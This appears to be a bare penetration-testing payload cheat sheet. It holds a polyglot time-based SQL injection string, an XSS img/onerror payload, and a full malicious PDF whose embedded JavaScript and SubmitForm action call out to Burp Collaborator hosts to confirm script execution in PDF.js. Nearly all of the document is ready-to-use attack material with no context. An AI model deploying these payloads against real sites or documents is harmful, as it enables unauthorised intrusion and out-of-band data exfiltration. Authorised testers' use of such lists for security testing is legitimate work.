 # payload
 ## SQLi one for all
    
    SLEEP(1)+/*'+or+SLEEP(1)+or'"+or+SLEEP(1)+or+"*/
 ## XSS
 
    "><img src=dwqdwq onerror=console.log(1)>
    
 ## XSS PDF.js
    
    %PDF-1.3

1 0 obj
<</Type/Pages/Count 1/Kids[5 0 R]>>
endobj

2 0 obj
<</Type/Catalog/OpenAction 9 0 R/Pages 1 0 R>>
endobj

3 0 obj
<</Length 112>>
stream
1 0 0 -1 0 792 cm
q
1 0 0 -1 0 792 cm
BT
220 400 Td
/F1 10 Tf
(For further information please click here) Tj
ET
endstream
endobj

4 0 obj
<</ProcSet[/PDF/Text/ImageB/ImageC/ImageI]/Font<</F1 6 0 R>>>>
endobj

5 0 obj
<</Type/Page/Parent 1 0 R/MediaBox[0 0 612 792]/Contents 3 0 R/Resources 4 0 R/Annots[8 0 R]>>
endobj

6 0 obj
<</Type/Font/BaseFont/Helvetica/Subtype/Type1/Encoding/WinAnsiEncoding>>
endobj

7 0 obj
<</S/URI/URI 10 0 R>>
endobj

8 0 obj
<</Subtype/Link/A 7 0 R/Type/Annot/Rect[0 0 889 792]/Border[0 0 0]>>
endobj

9 0 obj
<<
/S/JavaScript/JS(
	if\(this.submitForm\){
		this.submitForm\('http://adru9mu6fom0jl2ftj93pizfy640srphd9ax2ky8n.burpcollaborator.net'\);
		app.alert\("Script executed"\);
	}
)
/Next<</F<</F 10 0 R/FS/URL>>/S/SubmitForm>>
>>
endobj

10 0 obj
(http://twtds5dpy75j24lyc2sm81iyhpnjba80wtwho4ks9.burpcollaborator.net)
endobj

xref
0 11
0000000000 65536 f
0000000010 00000 n
0000000062 00000 n
0000000125 00000 n
0000000286 00000 n
0000000365 00000 n
0000000476 00000 n
0000000565 00000 n
0000000603 00000 n
0000000688 00000 n
0000000930 00000 n

trailer
<</Size 11/Root 2 0 R>>

startxref
1019
%%EOF
